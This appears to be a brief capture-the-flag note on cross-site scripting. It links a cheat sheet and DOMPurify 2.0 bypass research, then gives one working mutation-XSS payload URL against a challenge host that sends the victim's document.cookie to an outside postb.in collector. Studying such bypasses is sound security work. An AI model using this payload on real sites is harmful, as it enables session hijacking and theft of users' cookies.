 XSS
===

## Cheat sheet
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

## DOMPurify 2.0 bypass
https://research.securitum.com/dompurify-bypass-using-mxss/

```
http://qual-challs.rtfm.re:8080/?layout=<svg></p><style><a%20id="</style><style>%40keyframes%20slidein%20%7B%7D<%2Fstyle><a%20style%3D%27animation-duration%3A1s%3Banimation-name%3Aslidein%3Banimation-iteration-count%3A2%27%20onanimationiteration%3Ddocument.location=%27https:%2F%2Fpostb.in%2F1570471277352-2268189566675%2F%27+document.cookie><%2Fa>%20">
```
